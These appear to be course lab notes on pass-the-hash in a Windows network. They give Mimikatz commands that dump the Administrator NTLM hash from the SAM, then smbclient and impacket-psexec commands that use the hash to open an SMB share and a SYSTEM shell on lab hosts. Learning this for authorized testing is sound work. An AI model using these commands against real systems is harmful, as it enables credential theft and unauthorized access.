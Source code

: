 ### Demo: connecting to SMB share

Goal: Assume that we’ve already gained access to FILES01 and obtained the password (password123!) for the *gunther* user. We want to extract the Administrator’s NTLM hash and use it to authenticate to the FILES02 machine. Our goal is to gain access to a restricted SMB share and leverage pass-the-hash to obtain an interactive shell on FILES02.

Steps: 
1. Gain access to first target machine with local user account
2. Connect to SMB share by starting Windows Explorer and entering the path of the SMB share of the second target machine (e.g. `\\192.168.50.212\secrets`)
3. Enter credentials to access share -> failed (need to login with Administrator account instead)
	- If doesn't work (e.g. the *gunther* user doesn't work) it means that the credentials used are not valid on the second target machine or do not have the necessary privileges to access the share
4. Run Mimikatz in PowerShell
5. Retrieve the stored NTLM hash of Administrator from the SAM:
   `privilege::debug`
   `token::elevate`
   `lsadump::sam`
6. Use smbclient to gain access to the SMB share using NTLM hash:
   (kali) `smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b`
7. After successful connection to the SMB share, list all files:
   `dir`
8. Download files:
   `get [filename]`

### Demo: obtaining an interactive shell

Goal: Continuing with the above demo, obtain an interactive shell

#### psexec.py from impacket library
Tool: psexec.py script from impacket library
- very similar to the original Sysinternals PsExec command
- searches for a writeable share and uploads an executable file to it, then registers the executable as a Windows service and starts it as SYSTEM user

Command:
`impacket-psexec -hashes [LMHash:NTHash] [username@ip] [(optional) command to execute]`

E.g. `impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212`
- `-hashes [LMHash:NTHash]`: since we're only using NTLM hash, we fill LMHash with 32 0's (or anything else with 32 characters, doesn't matter)
- `Administrator@192.168.50.212`: target definition with format `username@ip`
- could specify the command to execute at the end of the command (by default, will execute **cmd.exe**)

> Note: Due to the nature of psexec.py, we’ll always receive a shell as SYSTEM instead of the user we used to authenticate.

#### wmiexec.py from impacket library
Tool: wmiexec.py from impacket library
- like psexec.py, but obtains a shell as the user we used to authenticate instead
